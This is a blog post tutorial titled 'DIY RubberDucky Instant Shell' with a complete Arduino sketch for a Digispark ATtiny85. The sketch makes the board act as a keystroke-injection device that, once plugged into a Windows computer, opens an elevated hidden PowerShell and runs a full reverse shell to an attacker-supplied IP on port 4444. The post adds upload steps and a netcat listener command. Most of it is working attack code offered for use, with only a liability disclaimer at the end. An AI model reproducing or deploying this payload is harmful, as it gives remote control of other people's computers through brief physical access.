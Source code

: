 ```yaml
---
title: DIY RubberDucky Instant Shell
description: Get an install shell in less than 30 sec with a DIY RubberDucky.
author: hum4ng0d
date: 2021-07-10
categories: [Exploit, PoC]
tags: [windows, mac, linux, rubberducky, shell, red team, penetration testing]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/rubberducky/rubberducky.png
  alt: DIY RubberDucky
---
```


In the previous post, I've walked through how to set up a DIY RubberDucky. In this post, I'll walk through how you can get a shell access in less than 1 minute.

### Payload

Github: [https://github.com/MTK911/Attiny85/tree/master/payloads/Instant%20Shell](https://github.com/MTK911/Attiny85/tree/master/payloads/Instant%20Shell)

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
#include "DigiKeyboard.h"
#define KEY_TAB 0x2b
void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}
void loop() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(500);
  DigiKeyboard.println("taskmgr"); //starting taskmgr
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(KEY_F, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);//run
  DigiKeyboard.delay(2000);
  DigiKeyboard.print("powershell -noexit -command \"mode con cols=18 lines=1\"");//start tiny PowerShell
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);//turn on admin privileges
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //run
  DigiKeyboard.delay(5000);
  DigiKeyboard.println("taskkill /IM \"taskmgr.exe\" /F ");//killing taskmanager
  DigiKeyboard.delay(2000);
  DigiKeyboard.println("cmd");//run cmd
  DigiKeyboard.delay(2000);
  DigiKeyboard.println(F("powershell -windowstyle hidden -command \"$client = New-Object System.Net.Sockets.TCPClient('<YOUR_IP_ADDRESS>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"")); //powershell to attacker
  DigiKeyboard.delay(5000);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/instantshell/shell01.png)

Make sure to change the attacker IP address and port number. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Set up your listener:

```
nc -lvnp 4444
```

If everything goes right, you will get a shell access in no time.

![DIY RubberDucky](/assets/img/instantshell/shell05.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 